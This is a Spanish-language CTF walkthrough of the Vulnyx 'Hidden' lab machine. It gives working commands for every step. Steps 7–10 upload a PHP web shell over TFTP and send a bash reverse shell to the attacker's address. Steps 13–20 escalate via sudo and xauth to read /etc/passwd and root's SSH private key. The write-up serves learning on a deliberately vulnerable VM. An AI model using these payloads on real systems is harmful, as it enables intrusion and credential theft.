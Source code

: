 ```yaml
---
layout: post
title: "Hidden"
date: 2024-04-23 17:50:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Hidden </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#hidden"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/hidden/host.png){:.margin}

**1\.** Revisamos hosts en la red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/hidden/arp_scan.png){:.margin}

**2\.** Escaneamos puertos y servicios activos.

`sudo nmap -p- -T5 --open -sCV -n -Pn --min-rate=5000 192.168.1.4 -oN port_scan`

![img](/notas/public/img/vulnyx/hidden/nmap.png){:.margin}

**3\.** Por defecto en el servicio Apache no encontramos nada.

`http://192.168.1.4:80`

![img](/notas/public/img/vulnyx/hidden/80.png){:.margin}

**4\.** Hacemos fuzzing en busca de directorios y archivos.

`gobuster dir -u http://192.168.1.4/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 50 -x php,html,txt`

![img](/notas/public/img/vulnyx/hidden/gobuster.png){:.margin}
_\- No hallamos nada util._

**5\.** Escaneamos 500 puertos más comunes en el protocolo UDP.

`sudo nmap -sU --top-ports 500 192.168.1.4`

![img](/notas/public/img/vulnyx/hidden/udp.png){:.margin}

**6\.** Iniciamos en el servicio TFTP, vemos los comandos disponibles.

`tftp 192.168.1.4`

`help`

![img](/notas/public/img/vulnyx/hidden/tftp.png){:.margin}

**7\.** Creamos nuestra archivo para ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/hidden/shell.png){:.margin}

_\- _Subimos nuestro archivo._

`put shell.php`

![img](/notas/public/img/vulnyx/hidden/put.png){:.margin}

**8\.** Apuntamos a nuestro archivo y le indicamos un comando.

`http://192.168.1.4/shell.php?cmd=id`

![img](/notas/public/img/vulnyx/hidden/id.png){:.margin}

**9\.** Nos ponemos en escucha por netcat.

`sudo nc -nlvp 443`

![img](/notas/public/img/vulnyx/hidden/nc.png){:.margin}

**10\.** Nos enviamos la reverse shell.

`http://192.168.1.4/shell.php?cmd=bash%20-c "bash -i>26/dev/tcp/192.168.1.9/443 0>%261"`

![img](/notas/public/img/vulnyx/hidden/reverse_shell.png){:.margin}

**11\.** Por netcat vemos que recibimos la conexión.


![img](/notas/public/img/vulnyx/hidden/connected.png){:.margin}

**12\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export TERM=xterm`

`export SHELL=bash`

![img](/notas/public/img/vulnyx/hidden/stty.png){:.margin}

![img](/notas/public/img/vulnyx/hidden/stty2.png){:.margin}

**13\.** Revisamos permisos sudo, podemos ejecutar dash como usuario satan.

`sudo -l`

![img](/notas/public/img/vulnyx/hidden/sudo_l.png){:.margin}

**14\.** Ganamos acceso como usuario satan; [dash](https://gtfobins.github.io/#dash).

`sudo -u satan dash`

![img](/notas/public/img/vulnyx/hidden/dash.png){:.margin}

**15\.** Revisamos permisos sudo, tenemos dos binarios con todos los permisos.

`sudo -l`

![img](/notas/public/img/vulnyx/hidden/sudo_l_satan.png){:.margin}

**16\.** En este caso usare xauth, ya que tenemos una opción interesante.

`xauth -h`

![img](/notas/public/img/vulnyx/hidden/xauth_help.png){:.margin}

**17\.** El binario espera un archivo con comandos, pero al no ser un comando nos muestra el contenido.

`sudo -u root xauth source /etc/passwd`

![img](/notas/public/img/vulnyx/hidden/etc_passwd.png){:.margin}

**18\.** Aprovechemos para leer el idrsa de root; lo copiamos.

`sudo -u root xauth source /root/.ssh/id_rsa`

![img](/notas/public/img/vulnyx/hidden/idrsa.png){:.margin}


**19\.** Lo guardamos en una archivo, completamos la cabecera y el pie del idrsa.

`nano id_rsa`

![img](/notas/public/img/vulnyx/hidden/nano_idrsa.png){:.margin}

_\- Le asignamos los permisos correspondientes._ 

`chmod 600 id_rsa`

![img](/notas/public/img/vulnyx/hidden/chmod.png){:.margin}

**20\.** Nos conectamos por ssh como root, y finalizamos obteniendo la flag.

`ssh -i id_rsa root@192.168.1.4`

`cd /root/`

`ls -a`

`cat .root.txt`

![img](/notas/public/img/vulnyx/hidden/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>